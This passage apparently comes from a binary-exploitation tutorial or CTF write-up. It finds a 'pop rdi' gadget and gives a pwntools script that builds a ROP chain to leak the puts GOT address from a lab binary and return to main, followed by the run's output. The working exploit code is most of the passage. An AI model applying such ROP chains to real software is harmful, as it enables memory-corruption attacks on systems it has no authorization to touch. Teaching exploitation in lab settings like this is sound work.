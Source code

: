 We'll need a "pop rdi" gadget to control the argument to \texttt{puts()}. You
can find one with ROPgadget.

\begin{lstlisting}
> ROPgadget --binary make_leak | grep "pop rdi"
0x0000000000400613 : pop rdi ; ret
> 
\end{lstlisting}

With this, we have everything we need to leak an address, as shown below.

\begin{lstlisting}
> cat make_leak_solution.py 
#!/usr/bin/python
from pwn import *

PUTS_PLT_ADDRESS = 0x400430
PUTS_GOT_ADDRESS = 0x601018
MAIN_ADDRESS     = 0x400566
PUTS_OFFSET      = 0x06f690

rop = "A" * 40

# 0x0000000000400613 : pop rdi ; ret
rop += p64(0x400613) + p64(PUTS_GOT_ADDRESS)

rop += p64(PUTS_PLT_ADDRESS)
rop += p64(MAIN_ADDRESS)

print rop
>
> ./make_leak_solution.py | ./make_leak
Welcome to REFE Corp.
Please sign in with your name.
You tricked us last time with that planted pointer...we won't get fooled again.
Please take a seat, we'll be with you at some point this week.

Welcome to REFE Corp.
Please sign in with your name.
You tricked us last time with that planted pointer...we won't get fooled again.
Please take a seat, we'll be with you at some point this week.
Illegal instruction (core dumped)
> 
\end{lstlisting}

As you can see, the program both leaks an address (which appears in the terminal
as strange characters), and executes \texttt{main()} twice before crashing. From
here, we need only fill in the rest of the exploit from the previous one.

